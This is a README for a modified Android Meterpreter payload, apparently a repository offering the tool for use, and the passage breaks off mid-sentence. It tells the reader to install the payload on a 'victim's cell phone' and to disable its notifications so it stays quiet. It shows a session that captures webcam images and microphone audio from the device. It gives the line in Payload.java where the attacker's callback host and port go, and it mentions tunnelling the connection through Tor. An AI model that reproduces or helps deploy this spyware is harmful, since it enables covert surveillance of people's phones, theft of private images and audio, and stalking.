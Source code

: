 # Meterpreter-Android
<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```

Setting:

Open the file: Nous/app/src/main/java/nous/client/Payload.java

On line 26 edit your host and Port.
```
public static final String URL = "ZZZZtcp://Host:Port
```

Compiler:
https://github.com/LGLTeam/AIDE-Mods

Meterpreter with the Tor network:
File Payload.java
This file is Java code that can be used to establish a remote connection to a target system. Modifications made to the code allow it to connect through a SOCKS5 proxy and to
